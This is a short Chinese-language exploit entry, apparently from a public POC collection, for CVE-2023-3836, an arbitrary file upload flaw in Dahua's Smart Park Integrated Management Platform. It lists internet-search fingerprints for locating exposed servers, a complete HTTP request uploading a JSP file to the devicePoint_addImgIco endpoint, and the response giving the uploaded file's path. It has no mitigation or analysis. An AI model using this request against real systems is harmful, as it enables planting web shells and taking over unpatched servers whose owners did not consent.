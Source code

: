# 大华 智慧园区综合管理平台 devicePoint_addImgIco 任意文件上传漏洞 CVE-2023-3836

## 网络测绘

fofa: app="dahua-智慧园区综合管理平台"

hunter: app.name="Dahua 大华 智慧园区管理平台"

## POC / EXP

```
POST /emap/devicePoint_addImgIco?hasSubsystem=true HTTP/1.1
Content-Type: multipart/form-data; boundary=A9-oH6XdEkeyrNu4cNSk-ppZB059oDDT
User-Agent: Java/1.8.0_345
Host: 
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Content-Length: 229
Connection: close

--A9-oH6XdEkeyrNu4cNSk-ppZB059oDDT
Content-Disposition: form-data; name="upload"; filename="1ndex123.jsp"
Content-Type: application/octet-stream
Content-Transfer-Encoding: binary

test
--A9-oH6XdEkeyrNu4cNSk-ppZB059oDDT--
```

```
{"code":1,"data":"ico_res_6ad8c3aba0f1_on.jsp"}

/upload/emap/society_new/ico_res_6ad8c3aba0f1_on.jsp
```